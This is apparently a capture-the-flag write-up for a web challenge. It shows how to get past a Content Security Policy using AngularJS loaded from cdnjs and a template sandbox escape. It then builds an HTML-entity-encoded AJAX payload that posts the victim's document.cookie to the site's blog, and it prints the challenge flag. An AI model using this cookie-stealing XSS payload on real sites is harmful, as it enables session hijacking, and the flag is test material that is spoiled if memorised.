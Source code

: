 ## Solution

XSS doesnt work due to CSP

```
<img src=x onerror=console.log(1); >
```

Then just search Hacktricks lmao

```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
```

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

![[Pasted image 20221202233617.png]]

![[Pasted image 20221202233514.png]]


### Payload?

### Form submission code

```js
$.ajax({
	type: "POST",
	url: "/post",
	data: JSON.stringify({"title":"Cookie", "content":document.cookie}),
	dataType: "json",
	contentType : "application/json"
}).done(function(response){
	if (response.message == "Success"){
		window.location.href = "/blog";
	}
	else {
		console.log(response.message);
	}
});
```

HTML encode into payload 1

```html
<span id=payload>
&Tab;&dollar;&period;ajax&lpar;&lcub;&NewLine;&Tab;&Tab;type&colon; &quot;POST&quot;&comma;&NewLine;&Tab;&Tab;url&colon; &quot;&sol;post&quot;&comma;&NewLine;&Tab;&Tab;data&colon; JSON&period;stringify&lpar;&lcub;&quot;title&quot;&colon;&quot;Cookie&quot;&comma; &quot;content&quot;&colon;document&period;cookie&rcub;&rpar;&comma;&NewLine;&Tab;&Tab;dataType&colon; &quot;json&quot;&comma;&NewLine;&Tab;&Tab;contentType &colon; &quot;application&sol;json&quot;&NewLine;&Tab;&rcub;&rpar;&period;done&lpar;function&lpar;response&rpar;&lcub;&NewLine;&Tab;&Tab;if &lpar;response&period;message &equals;&equals; &quot;Success&quot;&rpar;&lcub;&NewLine;&Tab;&Tab;&Tab;window&period;location&period;href &equals; &quot;&sol;blog&quot;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&Tab;else &lcub;&NewLine;&Tab;&Tab;&Tab;console&period;log&lpar;response&period;message&rpar;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&rcub;&rpar;&semi;
</span>

```

Combine with JS payload

```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };eval(document.getElementById("payload").innerText);//');}} </div>
```


Final Payload


```html
<span id=payload>
&Tab;&dollar;&period;ajax&lpar;&lcub;&NewLine;&Tab;&Tab;type&colon; &quot;POST&quot;&comma;&NewLine;&Tab;&Tab;url&colon; &quot;&sol;post&quot;&comma;&NewLine;&Tab;&Tab;data&colon; JSON&period;stringify&lpar;&lcub;&quot;title&quot;&colon;&quot;Cookie&quot;&comma; &quot;content&quot;&colon;document&period;cookie&rcub;&rpar;&comma;&NewLine;&Tab;&Tab;dataType&colon; &quot;json&quot;&comma;&NewLine;&Tab;&Tab;contentType &colon; &quot;application&sol;json&quot;&NewLine;&Tab;&rcub;&rpar;&period;done&lpar;function&lpar;response&rpar;&lcub;&NewLine;&Tab;&Tab;if &lpar;response&period;message &equals;&equals; &quot;Success&quot;&rpar;&lcub;&NewLine;&Tab;&Tab;&Tab;window&period;location&period;href &equals; &quot;&sol;blog&quot;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&Tab;else &lcub;&NewLine;&Tab;&Tab;&Tab;console&period;log&lpar;response&period;message&rpar;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&rcub;&rpar;&semi;
</span>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };eval(document.getElementById("payload").innerText);//');}} </div>
```


![[Pasted image 20221203004522.png]]

# Flag

`STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`

3rd solver

![[Pasted image 20221203004455.png]]